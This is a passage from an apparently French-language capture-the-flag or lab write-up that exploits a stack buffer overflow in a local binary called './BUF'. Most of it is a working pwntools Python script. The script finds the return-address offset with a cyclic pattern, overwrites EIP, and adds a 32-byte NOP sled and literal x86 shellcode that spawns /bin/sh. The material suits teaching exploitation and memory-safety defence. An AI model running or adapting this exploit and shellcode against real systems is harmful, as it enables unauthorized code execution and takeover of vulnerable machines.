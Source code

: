 1. Notre PADDING pour nous amener sur les theatres des opérations (trouvé avec GDB + PWNTOOLS/CYCLIC)
2. La valeur de l'adresse de retour ciblée (trouvé avec GDB)
3. Un tapis roulant de 32 NOP pour nous amener avec prudence auprès du SHELLCODE
4. Le SHELLCODE qui va ici nous donner un beau /bin/sh 

Et c'est cette chaine de BYTES que nous allons envoyer au programme vulnérable lorsqu'il nous demandera de saisir le nom de l' ONG ...
 -- " Fallait pas l'inviter lui ;-) " ---
 
*Bring all together* dans un programme Python qui là encore va utiliser **pwntools**


``` python
# EXPLOIT.PY
# ----------
# Avec pwntools en Python V3.x

from pwn import *

# Prendre sous GDB pour bien comprendre le trick 

    # GDB -q ./BUF
    # GDB : r < padding.bin
    # GDB : x/12xw $esp


TAILLE_TAPIS = 32       # On part avec un tapis roulant de 32 NOP (par sécurité)
PATTERN = 'qaac'        # Valeur EIP au moment du SEG FAULT 
                        # , résultant de notre flooding avec notre chaine CYCLIC ...

ADDRESS = 0xffffd09c + TAILLE_TAPIS

# ADDRESS = 0xffffd0bc    # GDB: x/12xw $esp || 0xffffd09c + 32 


proc = process('./BUF')
proc.recvline()

print("\nCréation de l'exploit:")

shellcode = b"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3h\x01\x01\x01\x01\x814\x24ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

offset = cyclic_find(PATTERN) # Renvoi la position dans la pattern prèalablement générée par Pwntools.Cyclic()
                              # c-a-d le contenu de EIP au moment du crash 

padding = b'A' * offset       # Amorce avec un tasseau de A (ici on en a besoin de 268)

f= open("padding.bin","wb")   # Un fichier, juste pour pouvoir declencher le SEG FAULT plus facilement dans GDB plus tard
f.write(padding)
f.close()

eip_cible = p32(ADDRESS + 1) 
tapis_nop = b'\x90' * TAILLE_TAPIS # on rempli notre tapis roulant de NOP pour glisser 
                                   # gentillement vers 0xffffd09c (EIP)


shellcode = b"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3h\x01\x01\x01\x01\x814\x24ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"


payload = padding + eip_cible + tapis_nop + shellcode # on construit notre charge utile

```
